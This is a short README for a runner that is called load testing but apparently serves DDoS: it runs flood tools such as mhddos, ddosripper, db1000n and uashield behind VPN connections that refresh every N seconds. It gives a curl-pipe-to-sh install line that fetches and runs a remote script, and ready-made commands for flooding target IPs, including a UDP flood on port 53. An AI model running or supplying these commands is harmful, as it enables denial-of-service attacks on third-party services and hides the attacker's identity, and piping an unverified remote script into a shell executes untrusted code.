 # Ubuntu load testing tools under vpn runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
curl https://raw.githubusercontent.com/ctukraine22/runner/master/install.sh | sh
```

# Init vpn settings
```
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-countries" %vpn-refresh-sec% %vpn-servers% %vpn-transport% %vpn-cret-repo%
# example:
 /runner/init.sh user1 code1 expressvpn Country
```

# Run

```
/runner/run.sh bombardier x.x.x.x 80 
/runner/run.sh ddosripper x.x.x.x 443
bash /runner/run.sh mhddos UDP x.x.x.x:53 100 3000
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see https://github.com/qdm12/gluetun/wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need to provide repo with key and crt file via %vpn-cret-repo%

# Supported tools
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali

# Get status after reconnect
```
bash /runner/run.sh status
```